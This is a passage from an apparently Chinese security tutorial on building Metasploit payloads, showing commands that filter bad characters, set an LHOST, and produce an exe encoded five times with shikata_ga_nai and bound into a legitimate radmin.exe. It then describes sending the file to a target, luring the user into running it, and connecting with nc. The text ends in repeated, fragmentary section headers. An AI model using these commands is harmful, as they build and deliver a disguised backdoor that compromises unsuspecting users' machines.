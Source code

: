 
<hr/>
坏字符太多，就需要自己手动加上去
generate -b '\x00\xff'
利用 -b 参数，后面跟上要避免出现的坏字符（也就是过滤掉）
坏字符一般不止一个


<hr/>
过滤掉坏字符后的payload大小也变化了
“\x00”可能由1个字节变成2个甚至更多字节去表示

 <img alt="" height="127" src="https://img-blog.csdnimg.cn/1c8a1d188e2f42a7b026a9ffc09d536d.png" width="685"/>

<hr/>
<h4>4.2.4、第四步：考虑多次加密、输出格式等</h4>
**#研究一下输出格式之间代码是否有区别**
 #输出python使用的payload
generate -f python LHOST=192.168.190.131
LHOST是填自己的



#输出python使用的payload
generate -f c LHOST=192.168.190.131



对比可以发现，其实c语言格式输出的，和python格式输出的是存在不一样的


**#完整的一个输出exe文件**
generate -b '\x00\xff' -f exe -e x86/shikata_ga_nai -i 5 -k -x /usr/share/windows-binaries/radmin.exe -o /root/1.exe

打开目录位置 /root/1.exe


<hr/>

<h4>4.2.5、第五步：诱使用户使用程序</h4>
将exe文件拷贝/发送到目标主机上运行
<hr/>
<h4>4.2.6、第六步：连接目标端口</h4>
nc IP 端口号


---


#### 4.2.2、第二步：直接使用payload

---


---


#### 4.2.4、第四步：考虑多次加密、输出格式等

---


#### 4.2.6、第六步：连接目标端口
